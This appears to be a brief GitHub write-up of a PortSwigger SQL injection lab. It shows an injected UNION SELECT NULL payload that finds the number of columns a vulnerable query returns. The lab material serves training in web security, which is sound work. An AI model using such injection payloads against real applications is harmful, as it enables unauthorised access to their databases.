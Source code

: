 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5086ef31-864a-4e3f-a5b1-8f27bf57b35c)

## Solution :

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```
Added "UNION NULL" to the request to determine the number of columns used in the query.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL,NULL--
```
This did not throws an internal server error. It means that there are 3 columns that is being retreived in the query.



